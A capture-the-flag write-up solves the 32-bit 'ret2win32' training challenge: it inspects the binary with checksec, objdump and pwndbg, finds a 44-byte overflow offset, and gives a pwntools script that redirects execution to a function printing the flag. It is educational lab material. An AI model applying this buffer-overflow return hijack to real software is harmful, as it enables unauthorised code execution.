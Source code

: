 First of all, use checksec to get some binary information

```
[marco@marco-pc Downloads]$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=70a25eb0b818fdc0bafabe17e07bccacb8513a53, not stripped
[marco@marco-pc Downloads]$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   79 Symbols     No	0		3	ret2win32
```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table


```
objdump -t ret2win32
...
080485f6 l     F .text	00000063              pwnme
08048659 l     F .text	00000029              ret2win
...
```

There are 2 interesting functions:
- pwnme, which is called from main, which print some strings and get an input;
- ret2win which perfom a system comand "cat flag.txt"

```
pwndbg> disassemble ret2win 
Dump of assembler code for function ret2win:
   0x08048659 <+0>:	push   ebp
   0x0804865a <+1>:	mov    ebp,esp
   0x0804865c <+3>:	sub    esp,0x8
   0x0804865f <+6>:	sub    esp,0xc
   0x08048662 <+9>:	push   0x8048824
   0x08048667 <+14>:	call   0x8048400 <printf@plt>
   0x0804866c <+19>:	add    esp,0x10
   0x0804866f <+22>:	sub    esp,0xc
   0x08048672 <+25>:	push   0x8048841
   0x08048677 <+30>:	call   0x8048430 <system@plt>
   0x0804867c <+35>:	add    esp,0x10
   0x0804867f <+38>:	nop
   0x08048680 <+39>:	leave  
   0x08048681 <+40>:	ret    
End of assembler dump.
pwndbg> x/s 0x8048841
0x8048841:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP and then we can jump in the ret2win funciton.
Let's find out how many bytes we need to fill until EIP

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

...

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
...

EIP  0x6161616c ('laaa')

...

pwndbg> cyclic -l 'laaa'
44

...
```

Final exploit:



```python
  1 #!/usr/bin/python3
  2 
  3 import struct
  4 from pwn import *
  5 
  6 ret2win_addr = 0x08048659
  7 
  8 shellcode = ("A"*44).encode()
  9 shellcode += struct.pack("<I", ret2win_addr)
 10 
 11 p = process('./ret2win32')
 12 
 13 p.recvuntil('>')
 14 p.sendline(shellcode)
 15 p.interactive()
```
